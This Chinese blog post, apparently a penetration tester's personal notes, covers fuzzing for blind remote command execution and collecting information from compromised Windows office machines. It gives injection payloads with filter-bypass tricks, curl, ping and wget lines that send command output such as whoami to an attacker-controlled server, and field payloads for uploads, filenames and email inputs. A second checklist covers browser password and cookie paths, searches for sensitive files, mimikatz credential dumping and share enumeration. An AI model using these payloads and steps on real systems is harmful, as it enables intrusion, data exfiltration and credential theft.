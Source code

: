 ```yaml
---
layout: post
toc: true
title: "「Fuzz」:浅谈一些模糊匹配搜集信息的技巧"
author: Bin4xin
categories:
    - blog
    - 笔记
    - fuzz
    - 信息搜集
permalink: /blog/2020/learn/to/fuzz/
---
```


写在文前：

> 我们在web攻防期间有很多时候有一种感觉：那就是遇到rce漏洞时，bp放包的时候有一种隐隐的感觉，有的时候bp的反包字节大小莫名其妙的怪异，有经验的老师傅就索性直接跑RCE的fuzz字典，所以本篇就日常记录一些有关于web攻防期间的一些fuzz技巧

# 服务器RCE的fuzz技巧

* Windows机器的fuzz

即我们可以在关键参数后面使用管道符号和连接符fuzz命令执行实现我们的盲打：

`||和&`
 
* linux机器的fuzz

同上

`||和&`

* Linux下过滤空格可以使用:
```
${IFS},$IFS,$IFS$9
```

* JSON格式下的测试:
```
\u000awget\u0020 http://ip
```

Linux下可以包括反引号，windows下不可以。

## Linux下正常测试rce:
```bash
服务器启动web，注意需要处于监听状态下启动：

bin4xin@bin4xin's MacbookPro tools % python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...

```
rce fuzz命令如下：
```bash
bin4xin@bin4xin's MacbookPro tools % curl 192.168.101.51:8000/`whoami`
```
同时我们反过来看web日志记录：
```bash
::ffff:192.168.101.51 - - [19/Sep/2020 13:57:25] "GET /bin4xin HTTP/1.1" 301 -
```
同理各位可以发散思维：

ping `whoami`.服务器地址

如上，ping、curl同样适用。


一些特殊字符绕过姿势:

```bash
curl http://服务器地址/$(whoami)

curl http://服务器地址/$(whoami|base64)

'w'g'e't${IFS}服务器地址
```
各位可以自行实验在linux下的效果。

## Windows探测:

fuzz技巧是一样的，只是fuzz命令有一些区别；
```bash
ping %USERNAME%.服务器地址
------
(获取计算机名)
for /F %x in ('whoami') do start http://服务器地址/%x
------
(获取用户名称)
for /F "delims=\ tokens=2" %i in ('whoami') do ping -n 1 %i.服务器地址
------
测试邮箱:`wget%209服务器地址/xxxx`@qq.com

测试上传:`sleep 10`filename

测试filenname:`||wget%20服务器地址`

测试上传处下的名称: ;payload|payload&payload
;whoami|whoami&whoami
------
```

# 个人机器信息收集

1. 浏览器[Chrome,Firefox,Edge,IE,360,QQ ]信息(历史记录，密码，书签，cookie)：

   ```
   %LocalAppData%\Google\Chrome\User Data\Default
   %APPDATA%\Mozilla\Firefox\Profiles\xxxxxxxx.default\
   ```

2. 机器内敏感文件，关键词：账号、密码、备份、登录、管理、邮箱、后台、资产、网络

   ```
   for /r D:\ %i in (*密码*) do @echo %i
   for /r D:\ %i in (*vpn*) do @echo %i
   for /r D:\ %i in (*账号*) do @echo %i
   ```

3. 机器进程

   * 杀软/edr
   * teamviewer/等远程管理工具
   * 服务类进程：mssql/java/web服务

4. 安装软件列表

5. 当前windows 凭证管理器存储的密码

   * 登录密码（mimikatz）

   * wifi密码

   * outlook密码

   * ……

6. 机器开放端口信息/防火墙信息/获取机器共享

   ```
   netstat -naop
   wmic share  get name,path,status  #利用wmic查找共享
   ```

7. 获取机器所有rdp连接记录

8. 获取所有盘符

   ```
   wmic logicaldisk where drivetype=3 get name,freespace,systemname,filesystem,volumeserialnumber,size #查看分区
   ```

9. 获取全盘所有敏感文件

   .doc\xlsx\md\sql\ppt*\txt

   ```
   for /r D:\ %i in (*.doc) do @echo %i
   for /r D:\ %i in (*.xlsx) do @echo %i
   for /r D:\ %i in (*.ppt*)) do @echo %i
   ```

10. 本地环境
    * hosts
    * 环境变量
    * 补丁列表
    * 当前主机的会话信息

工作不饱和 总结了一下个人办公机信息收集思路